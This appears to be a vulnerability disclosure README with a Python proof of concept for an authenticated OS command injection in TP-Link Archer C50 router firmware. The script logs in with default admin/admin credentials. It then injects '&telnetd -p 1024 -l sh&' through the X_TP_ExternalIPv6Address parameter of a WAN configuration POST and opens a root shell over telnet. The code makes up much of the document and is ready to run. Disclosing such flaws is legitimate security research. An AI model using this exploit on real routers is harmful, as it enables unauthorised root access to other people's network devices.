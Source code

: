 # Archer_C50
Exploit Author: yangchunyu@whu.edu.cn

Vendor: TP-Link

Firmware: Archer_C50(TW)_V1_160614

There is remote authenticated OS command injection on TP-Link Archer C50 devices via the X_TP_ExternalIPv6Address HTTP parameter, allowing a remote attacker to run arbitrary commands on the router with root privileges.

Perform command concatenation on the X_TP_ExternalIPv6Address parameter in the HTTP POST message, the authenticated remote attacker can execute the shell command.

The similar vulnerability already exists with CVE-2021-44827.

# poc
import requests

import base64

import os

import time

ip = targetIPAddress

username = "admin"

password = "admin"

tplink_url = "http://" + ip + "/cgi?2&2"

userinfo = username + ":" + password

cookie = "Authorization=Basic " + base64.b64encode(userinfo.encode()).decode("ascii")

referer = "http://" + ip +"/mainFrame.htm"

cmd = "telnet " + ip + " 1024"

payload_template = """[WAN_ETH_INTF#1,0,0,0,0,0#0,0,0,0,0,0]0,1\r

X_TP_lastUsedIntf=ipoe_eth3_s\r

[WAN_IP_CONN#1,1,1,0,0,0#0,0,0,0,0,0]1,21\r

externalIPAddress=192.168.9.222\r

subnetMask=255.255.255.0\r

defaultGateway=192.168.9.2\r

NATEnabled=1\r

X_TP_FullconeNATEnabled=0\r

X_TP_FirewallEnabled=1\r

X_TP_IGMPProxyEnabled=1\r

X_TP_IGMPForceVersion=0\r

maxMTUSize=1500\r

DNSOverrideAllowed=1\r

DNSServers=192.168.9.3,0.0.0.0\r

X_TP_IPv4Enabled=1\r

X_TP_IPv6Enabled=0\r

X_TP_IPv6AddressingType=Static\r

X_TP_ExternalIPv6Address=commond\r

X_TP_PrefixLength=64\r

X_TP_DefaultIPv6Gateway=::\r

X_TP_IPv6DNSOverrideAllowed=0\r

X_TP_IPv6DNSServers=::,::\r

X_TP_MLDProxyEnabled=0\r

enable=1\r
"""
payload = payload_template.replace("commond", "::")

res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})

time.sleep(5)

payload = payload_template.replace("commond", "&telnetd -p 1024 -l sh&")

res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})

os.system(cmd)
